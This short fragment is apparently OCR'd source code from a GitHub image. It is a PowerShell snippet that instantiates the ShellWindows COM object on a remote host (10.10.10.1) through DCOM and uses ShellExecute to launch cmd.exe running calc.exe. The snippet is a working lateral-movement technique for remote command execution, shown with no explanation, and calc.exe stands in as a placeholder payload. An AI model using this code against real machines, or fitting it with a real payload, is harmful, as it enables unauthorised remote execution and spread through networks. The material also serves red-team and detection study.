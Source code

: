 	$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.1")
	$obj = [System.Activator]::CreateInstance($com)
	$item = $obj.Item()
	$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
